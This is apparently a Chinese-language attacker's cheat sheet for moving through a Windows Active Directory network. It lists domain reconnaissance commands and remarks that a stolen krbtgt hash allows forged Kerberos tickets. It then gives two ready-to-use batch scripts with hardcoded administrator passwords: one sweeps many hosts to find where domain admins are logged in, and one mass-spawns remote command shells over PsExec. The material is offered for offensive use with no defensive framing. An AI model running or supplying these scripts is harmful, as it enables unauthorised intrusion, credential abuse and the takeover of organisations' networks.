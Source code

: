 ```
dsquery server #得到域控制器的IP
```

![image886](http://www.xmrseo.com/content/uploadfile/201805/dad51527168524.jpg)



` net group "domain controllers" /domain `: 得到域控制器主机名 

 注意通过该指令得到的机器名后面会多一个$符号



` net group "domain admins" /domain `  : 查询域管理用户 

` net user /domain `查看所有域用户

` net config workstation ` : 查询当前登陆域 

` net accounts /domain `:  查询域密码策略 

` wmic qfe ` : 查看补丁信息 

` wmic os `:  查看操作系统类型 

`ipconfig /all  `查询本机IP段，所在域等

`tasklist /S ip /U domain\username /P /V             `查看远程计算机进程列表



 有一个特殊用户叫做krbtgt，该用户是用于Kerberos身份验证的帐户，获得了该用户的hash，就可以伪造票据进行票据传递攻击了 



#### 批量查找 域管理员登陆过目标计算机



```bat
@echo off
echo check ip addr config file...
if not exist ip.txt echo ip addr config file ip.txt does not exist! & goto end
echo read and analysis file...
for /F "eol=#" %%i in (ip.txt) do echo %%i &(echo %%i &tasklist /s %%i /u administrator /p mytest2010 /v) >>d:\result.txt
:end
exit
```



#### 批量反弹cmdshell

```cmd
@echo off
echo check ip addr config file...
if not exist ip.txt echo ip addr config file ip.txt does not exist! & goto end
echo read and analysis file...
for /F "eol=#" %%i in (ip.txt) do start PsExec.exe \\%%i -accepteula -u administrator -p "123456" cmd & start cmd /c PsExec.exe \\%%i -u administrator -p "123456" cmd
:end
exit
```
